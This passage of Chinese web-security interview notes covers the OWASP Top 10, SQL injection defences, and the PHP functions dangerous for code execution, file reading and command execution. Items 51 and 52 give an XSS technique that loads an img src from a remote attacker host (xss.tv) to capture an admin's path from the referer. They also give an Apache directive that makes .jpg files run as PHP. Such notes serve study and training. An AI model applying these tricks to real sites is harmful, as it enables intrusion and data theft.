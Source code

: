   - 48、owasp 漏洞都有哪些？
    1、SQL注入防护方法：
    2、失效的身份认证和会话管理
    3、跨站脚本攻击XSS
    4、直接引用不安全的对象
    5、安全配置错误
    6、敏感信息泄露
    7、缺少功能级的访问控制
    8、跨站请求伪造CSRF
    9、使用含有已知漏洞的组件
    10、未验证的重定向和转发
  - 49、SQL注入防护方法？
    1、使用安全的API
    2、对输入的特殊字符进行Escape转义处理
    3、使用白名单来规范化输入验证方法
    4、对客户端输入进行控制，不允许输入SQL注入相关的特殊字符
    5、服务器端在提交数据库进行SQL查询之前，对特殊字符进行过滤、转义、替换、删除。

- 50、代码执行，文件读取，命令执行的[函数](https://www.runoob.com/php/php-tutorial.html)都有哪些？

  1）代码执行：

  eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function

  2）文件读取：

  file_get_contents(),highlight_file(),fopen(),read

     file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等
  3)命令执行：

  system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()

  - 51、img标签除了onerror属性外，还有其他获取管理员路径的办法吗？
    src指定一个远程的脚本文件，获取**referer**

- 52、img标签除了onerror属性外，并且src属性的后缀名，必须以.jpg结尾，怎么获取管理员路径。

  1）远程服务器修改apache配置文件，配置.jpg文件以php方式来解析
  AddType application/x-httpd-php .jpg

     `<img src=[http://xss.tv/1.jpg>` 会以php方式来解析

- [ ] linux 

  - [密码存储格式分析](https://blog.csdn.net/ouyang_peng/article/details/8732644) [john ripper](https://blog.csdn.net/boy_from_village/article/details/80383419)

  - [基本操作](https://www.runoob.com/linux/linux-user-manage.html)

  - metasploit 

    <https://blog.csdn.net/hackerie/article/details/78155979>

- [ ] python 

  - [python绝记笔记](https://blog.csdn.net/SKI_12/article/details/72972238)
  - [python爬动态页面](https://blog.csdn.net/SKI_12/article/details/78411824)
  - [python neophyte](https://crossincode.com/)
